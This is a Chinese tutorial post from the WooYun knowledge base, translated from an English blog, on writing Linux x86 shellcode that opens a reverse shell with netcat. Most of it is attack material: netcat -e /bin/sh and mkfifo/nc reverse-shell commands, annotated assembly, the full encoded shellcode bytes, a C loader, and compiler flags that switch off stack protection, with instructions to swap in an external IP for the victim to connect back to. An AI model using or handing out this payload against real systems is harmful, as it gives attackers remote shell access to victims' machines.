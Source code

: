 # 使用 netcat 进行反弹链接的 shellcode

2014/04/03 16:23 | [∑-TEAM](http://drops.wooyun.org/author/∑-TEAM "由 ∑-TEAM 发布") | [二进制安全](http://drops.wooyun.org/category/binary "查看 二进制安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

from:[`morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat/`](http://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat/)

这篇文章主要是谈，在远程溢出时怎样构造 shellcode，才能形成一个有效的反弹链接。

## 0x00 反向绑定远程 shell

* * *

让本地主机和远程 shell 建立起连接的方法有很多种，其中最常见的是在远程主机上开放一个端口，然后把它的

```
stdout/stderr/stdin 
```

重定向到一个 shell 上。

这样我们就可以在自己的主机上通过一个简单的 netcat 命令来连接它。

但是，大多数情况下这种方法并不能起作用，很多服务器只对外开放少量的几个端口，比如，http(s),ftp,smtp 等。

其他的数据包都会被防火墙直接丢弃。解决这种问题的方法就是使用反弹链接，反弹链接的意思就是，让远程的主机主动连接我们的服务器。

所以，你需要在自己的机器上开放一个端口，等待着倒霉的受害者自己连接你的主机就可以了。

## 0x01 netcat -e 命令

* * *

首先我们假设，目标网站上安装了 netcat。

通常情况下 netcat 支持 e 参数，这个参数将会运行后面所跟的程序，并将它跟链接绑定。

如果我们把`/bin/sh`通过 e 参数绑定，并开启监听，那当我们使用远程主机连接到这台主机时，就相当于获得了一个 shell。让我们来尝试一下。

在本地主机运行

```
netcat -lvp 9999

```

监听连入的链接。

新开一个 shell 运行

```
netcat -e /bin/sh 127.0.0.1 9999  

```

这样，你的第一个 shell 将建立起一个链接，在其中执行`ls whoami` 等命令，测试一下它是否可以正常工作，
你也可以使用 Ctrl+c 来关闭这个链接。

注意:openbsd 版本的 netcat 不支持 -e 或者-c 参数。

你可以使用以下的语句来替代。

```
rm -f /tmp/f; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 9999 > /tmp/f

```

但是它太复杂了，很难在 shellcode 中运行。

## 0x02 汇编代码

* * *

现在我们就来看一下怎样把这条语句通过汇编执行，并放入 shellcode 中。

下面是，我们 shellcode 重要运行的汇编代码。(intel 语法)

```
jmp short       forward
back:
pop             esi
xor             eax, eax
mov byte        [esi + 11], al    ; terminate /bin/netcat
mov byte        [esi + 14], al    ; terminate -e
mov byte        [esi + 22], al    ; terminate /bin/sh
mov byte        [esi + 38], al    ; terminate 127.127.127.127
mov byte        [esi + 43], al    ; terminate 9999
mov long        [esi + 44], esi   ; address of /bin/netcat in AAAA
lea             ebx, [esi + 12]   ; get address of -e  
mov long        [esi + 48], ebx   ; store address of -e in BBBB 
lea             ebx, [esi + 15]   ; get address of /bin/sh
mov long        [esi + 52], ebx   ; store address of /bin/sh in CCCC
lea             ebx, [esi + 23]   ; get address of 127.127.127.127
mov long        [esi + 56], ebx   ; store address of 127.127.127.127 in DDDD
lea             ebx, [esi + 39]   ; get address of 9999
mov long        [esi + 60], ebx   ; store address of 9999 in EEEE
mov long        [esi + 64], eax   ; put NULL in FFFF
mov byte        al, 0x0b          ; pass the execve syscall number as argument
mov             ebx, esi          
lea             ecx, [esi + 44]   ; /bin/netcat -e /bin/sh etc etc
lea             edx, [esi + 64]   ; NULL
int             0x80              ; Run the execve syscall

forward:
call            back
db "/bin/netcat#-e#/bin/sh#127.127.127.127#9999#AAAABBBBCCCCDDDDEEEEFFFF"

```

其实上面代码想做的翻译成 c 语言是如下两行

```
char *command[] = {"/bin/netcat", "-e", "/bin/sh", "127.127.127.127", "9999", NULL};
execve(command[0], command, NULL);

```

命令就是如下的字符串

```
/bin/netcat#-e#/bin/sh#127.127.127.127#9999#AAAABBBBCCCCDDDDEEEEFFFF

```

字符串中各个部分被`#`隔开，是因为在 shellcode 中不能出现 null，这会造成 shellcode 被截断，从而不能被
目标主机正确运行。

不管我们在哪里运行这段程序，首先需要知道的是命令字符串的地址。

所以我在第 1 行和第 26 行分别创建了两个标签（forword 和 back），使用 call 命令时(27 行)，首先会把返回地址入栈，返回地址就是下一条指令的地址，而下一条指令的地址恰巧就是我们的命令字符串。

回到第 3 行，我们把命令字符串地址弹出到 ESI 寄存器，然后将 EAX 初始化，注意我们不能直接使用

```
mov eax,0

```

因为 null 在 shellcode 中是不允许出现的。最后我们吧，命令字符串分开存放到内存之中。

![1396093148_png.jpg](img/img1_u40_png.jpg)

在第 5 行到第 9 行，我们把寄存器中的 0 移动到字符串的末尾，使用替代`#`（取自 eax 寄存器，其中的 0 使用 xor 生成）之后我们需要一个各个字符串地址的数组，作为 execve()的第二个参数。

在第十行，我们把 `/bin/netcat` 的地址放入 AAAA 所在的位置，程序中的 11 到 18 行也是在做同样的事情，最后 19 行我们把存入到 FFFF 的位置，作为字符串的结尾。

在第 20 行我们准备执行系统调用，我们首先把 0xb 存储到 eax 中，esi(/bin/netcat 的地址)存储到 ebx 中，字符串的地址存储到，ecx 中，最后 edx 存储 null，之后使用 0x80 触发系统调用，不出意外的话，一个反弹链接的指令就成功执行了。

这个例子中，ip 地址使用的是 127.127.127.127  端口号是 9999，这是一个本地的 ip 地址。通常情况下
你需要使用一个外网 IP 来替换掉它，如果两个 ip 长度不同的话，你要仔细的修改掉所有与他相关联的汇编代码。

## 0x03 编译测试 shellcode

* * *

现在，需要把汇编代码存储到一个 asm 文件之中，我们这里叫做 shell.asm,使用以下的语句编译它，

```
nasm -felf32 -o shell.o shell.asm

```

使用，`objdump -D`命令我们就可以看到这个小程序的 opcodes,使用下面一段指令我们就可以把它们
放入到一个 C 字符串中

```
for i in $(objdump -d shell.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

```

最后我们得到

```
\xeb\x3c\x5e\x31\xc0\x88\x46\x0b\x88\x46\x0e\x88\x46\x16\x88\x46\x26\x88\x46\x2b\x89\x76\x2c\x8d\x5e\x0c\x89\x5e\x30\x8d\x5e\x0f\x89\x5e\x34\x8d\x5e\x17\x89\x5e\x38\x8d\x5e\x27\x89\x5e\x3c\x89\x46\x40\xb0\x0b\x89\xf3\x8d\x4e\x2c\x8d\x56\x40\xcd\x80\xe8\xbf\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x65\x74\x63\x61\x74\x23\x2d\x65\x23\x2f\x62\x69\x6e\x2f\x73\x68\x23\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x23\x39\x39\x39\x39\x23\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x44\x44\x44\x44\x45\x45\x45\x45\x46\x46\x46\x46 
```

最后我们使用一段 c 程序来验证这个 shell 是否可行。

```
char shellcode[] = "\xeb\x3c\x5e\x31\xc0\x88\x46\x0b\x88\x46\x0e\x88\x46\x16\x88\x46\x26\x88\x46\x2b\x89\x76\x2c\x8d\x5e\x0c\x89\x5e\x30\x8d\x5e\x0f\x89\x5e\x34\x8d\x5e\x17\x89\x5e\x38\x8d\x5e\x27\x89\x5e\x3c\x89\x46\x40\xb0\x0b\x89\xf3\x8d\x4e\x2c\x8d\x56\x40\xcd\x80\xe8\xbf\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x65\x74\x63\x61\x74\x23\x2d\x65\x23\x2f\x62\x69\x6e\x2f\x73\x68\x23\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x23\x39\x39\x39\x39\x23\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x44\x44\x44\x44\x45\x45\x45\x45\x46\x46\x46\x46";

int main()
{
    int (*ret)() = (int(*)())shellcode;
    ret();
}

```

想要编译它，需要关闭一些安全编译选项，然后使用如下命令。

```
gcc shellcode.c -fno-stack-protector -z execstack -o shellcode  

```

在另一个 shell 中运行`netcat -lvp 9999`，然后运行这个 c 程序`./shellcode`如果一切正确的话你就可以得到一个反弹链接的 shell 了。

![1396096315_png.jpg](img/img2_u43_png.jpg)

happy hacking!

版权声明：未经授权禁止转载 [∑-TEAM](http://drops.wooyun.org/author/∑-TEAM "由 ∑-TEAM 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [教你解密 Gh0st 1.0 远控木马 VIP 版配置信息](http://drops.wooyun.org/tips/3589)
*   [堆溢出学习笔记](http://drops.wooyun.org/tips/1621)
*   [逆向基础（十）](http://drops.wooyun.org/tips/2728)
*   [逆向基础（四）](http://drops.wooyun.org/tips/2046)
*   [MS15-002 telnet 服务缓冲区溢出漏洞分析与 POC 构造](http://drops.wooyun.org/papers/4621)
*   [Winrar4.x 的文件欺骗漏洞利用脚本](http://drops.wooyun.org/tips/1346)